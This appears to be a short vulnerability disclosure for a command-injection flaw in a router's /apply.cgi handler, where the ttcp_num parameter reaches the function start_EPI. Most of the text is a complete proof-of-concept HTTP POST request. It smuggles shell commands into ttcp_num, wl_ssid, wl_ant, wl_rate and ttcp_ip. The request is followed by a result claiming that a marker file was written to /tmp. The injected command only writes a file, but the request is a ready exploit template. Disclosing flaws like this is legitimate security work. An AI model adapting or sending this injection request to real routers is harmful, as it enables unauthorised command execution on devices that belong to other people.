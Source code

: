 # ttcp_num

in function `start_EPI`, we can inject `ttcp_num` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 380
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_ssid=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_rate=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&ttcp_num=%3Becho%20%22hacker_payload_ttcp_num%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_ip=%3Becho%20%22hacker_payload_ttcp_ip%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_size=114514
```



# result
I successfully touch a file with the content "hacker_payload_ttcp_num"
![alt text](imgs/image.png)

